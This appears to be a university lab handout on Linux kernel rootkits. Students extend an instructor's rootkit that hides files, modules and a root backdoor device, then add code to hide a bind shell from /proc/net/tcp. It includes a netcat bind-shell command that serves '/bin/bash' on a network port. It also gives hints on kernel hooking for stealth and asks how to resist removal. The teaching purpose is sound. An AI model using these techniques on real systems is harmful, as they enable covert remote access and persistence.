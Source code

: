 ```yaml
---
title: Kernel Backdoors and Rootkits
parent: System Security
nav_order: 1
summary: Rootkits
---
```


# Lab 6: Kernel Rootkits

This lab will introduce you to both kernel module programming and to kernel
backdoors and rootkits. You will take an existing kernel rootkit written by your instructor
and extend it.

**Due Date: Monday 10/02/23 before class**

## Lab Description
This lab will guide you through kernel rootkit construction. More details are
in the code's repo and below, but here is the gist. The rootkit already has the following
capabilities implemented by your instructor:

- Hide the rootkit source and object files from the filesystem (`b4rnd00r.{c,ko}`)
- Hide the rootkit from the kernel's list of loaded modules (by scrubbing `/proc/modules`)
- Hide a parasite library (used for optional binary exploitation/ELF poisoning lab), `libtest.so.1.0`, (by scrubbing `/proc/PID/maps`)
- Creates a local backdoor to get us root by exposing a device file at
  `/dev/b4rn`. When a user writes a [special string](https://www.youtube.com/watch?v=7R0mD3uWk5c) to that file, the user will
  become root.
- Hiding the backdoor character device file (`/dev/b4rn`).

### Getting the Code
**You'll want to use the SEED 16.04 Ubuntu VM for this lab**. In the VM, you can
get the code for this lab by cloning your instructor's repo:

```bash
git clone https://github.com/khale/kernel-rootkit-poc
```
Make sure to go through the `README` in the repo. The SEED VM should have everything necessary to load the rootkit.


### Task 1: The code
Understand the code. You should realize that the kernel module's entry point
(`b4rn_init()`) is invoked after the module is loaded by the kernel (e.g., by
`insmod` or `modprobe`). Start there and read comments carefully.

### Task 2: The Backdoor

Could an attacker use the backdoor exposed by the rootkit to remotely get
access? Explain why or why not.

Realize that this is a pretty rudimentary backdoor. There are certainly more stealthy ways to do this (e.g., so we don't create an unwanted device file on the system). Can you think of any?

By the way, there have been [nefarious attempts](https://lwn.net/Articles/57135/) to backdoor the kernel itself,
though they were unsuccessful. This isn't limited by any means to kernel space.
The NSA is suspected to have [backdoored](https://miracl.com/blog/backdoors-in-nist-elliptic-curves/) a standard altorithm widely used for
encryption. Your instructor's [favorite example of a backdoor](https://www.win.tue.nl/~aeb/linux/hh/thompson/trust.html) was one injected
by a C compiler into the UNIX login program, devised by the [UNIX man himself](https://en.wikipedia.org/wiki/Ken_Thompson).
Definitely worth a read.


### Task 3: Hiding in Plain Sight

Explain why we must (1) use function pointers and `kallsyms_*()` functions to call certain routines and (2) manipulate `cr0` and page protections to install our function overrides.

Suppose I wanted to make it very hard for a system administrator to remove my rootkit from the system. What are some things I could do to prevent that? (Hint: there is a `reboot()` system call)

### Task 4: Remote Backdoor

For this task you'll be extending b4rnd00r to hide a remote backdoor (i.e.,
a bindshell running on the system). First run a bind shell like so:

```bash
nohup nc -nvlp 9474 -e /bin/bash >/dev/null 2>&1 &
```
(note, you may have to install `netcat-traditional` for this to work).

This listens on port 9474, and when a client connects it will spawn a shell and
send output back out over the network socket. The `nohup` command prevents the
netcat program from exiting after we log out of the system (which we would
probably do after we've owned a machine and set up the backdoor). The
redirection just silences output on the server side.

If you've got bridged networking set up for your VM, you should be able to
access this bind shell as follows from your **host** machine:

```bash
nc <VM-IP> 9474
```

You can access it with NAT networking as well, but you'll have to forward the
9474 port with your hypervisor. It's probably just easier to use bridged
networking. Other than the `nc` process itself, the listening socket can be seen
by an auditor pretty easily by using `netstat`:

```
$ netstat -tl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 cato:domain             0.0.0.0:*               LISTEN     
    tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:9474            0.0.0.0:*               LISTEN     
    tcp6       0      0 localhost:ipp           [::]:*                  LISTEN     
    tcp6       0      0 [::]:9474               [::]:*                  LISTEN
```


This is no good if we're trying to be stealthy. We can pretty much guess that
this information is coming from the kernel, and almost certainly from `/proc`
somewhere, and that `netstat` is really just sugar coating the kernel's output.
We can do some digging to find out exactly where:

```
 $ strace netstat -tl 2>&1 | grep "^open" | grep "proc"
    openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
    openat(AT_FDCWD, "/proc/net/tcp6", O_RDONLY) = 3
```

Sure enough, `netstat` is really just a wrapper around the `/proc` interface. Let's
see the raw information straight from the source (the kernel):

```
$ cat /proc/net/tcp
     sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
       0: 017AA8C0:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 34934 1 000000007060ba94 100 0 0 10 0 
       1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 30174 1 00000000d07a82df 100 0 0 10 0
       2: 00000000:2502 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 59441 1 000000003a4d11ec 100 0 0 10 0
```

You can see why `netstat` exists now. This output is pretty opaque. If we
realize that 9474 is actually 0x2502, however, we can pretty easily identify
our bind shell. This gives us a hint on how to hide our connection then,
because we really just need to scrub this output to remove that line in our
rootkit. This is your task!

Some hints:
- You should be able to use the same `seq_file` technique used for the maps file.
- Network sockets are also exposed in `/proc`. You will focus on TCP (IPv4). You will thus need to take a look at `/proc/net/tcp` (or `/proc/self/net/tcp`).
- You'll want to see the `tcp4_seq_show()` [function](https://elixir.bootlin.com/linux/v4.8/source/net/ipv4/tcp_ipv4.c#L2257).
- When you override the seq file, you will need to use the `struct inet_sock` [structure](https://elixir.bootlin.com/linux/v4.8/source/include/net/sock.h#L306) (which you can derive from the `v` pointer in your seq handler). Given a `struct sock * sk`, you will need to extract the port number from the socket structure like so: `ntohs(inet_sk(sk)->inet_sport)`.
- You don't need to use `unprotect_page()` and `protect_page()` like was done for the maps file.
- Make sure not to dereference the special start socket (if `v==SEQ_START_TOKEN`, just pass it along to the normal seq function).

<!--
- The proc dirs for `/proc/net` are organized in a red black tree. See [here](https://lwn.net/Articles/184495/) and understand the `init_net` struct from the `net/tcp.h` [header](https://elixir.bootlin.com/linux/v4.8/source/include/net/tcp.h) and its `proc_net` member field. You will want to use [helper functions](https://elixir.bootlin.com/linux/v4.8/source/include/linux/rbtree.h#L69) provided by Linux like `rb_first()`, `rb_last()`, `rb_entry()`, `struct proc_dir_entry` etc.
--> 

## Handin
Please write your lab report according to the description. Please also list the
important code snippets followed by your explanation. You will not receive
credit if you simply attach code without any explanation. Upload your answers
as a PDF to blackboard

## Prerequisite Reading
[Linux Kernel Module Programming Guide](https://sysprog21.github.io/lkmpg/) (Chs. 1-7)


## Further Reading
- Intro to [Linux kernel modules](https://tldp.org/HOWTO/Module-HOWTO/x73.html)
- Linux VFS, proc, and root filesystems [article](https://harryskon.wordpress.com/2015/03/31/vfs-proc-and-root-filesystems/)
- Kernel documentation on [seq files](https://www.kernel.org/doc/Documentation/filesystems/seq_file.txt)
- Another [rootkit example](https://0x00sec.org/t/hiding-with-a-linux-rootkit/4532)
- [Article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) on bind shells, reverse
shells, etc.
- [Sysdig](https://github.com/draios/sysdig)
- [Looking back at Multics security](https://hack.org/mc/texts/classic-multics.pdf)
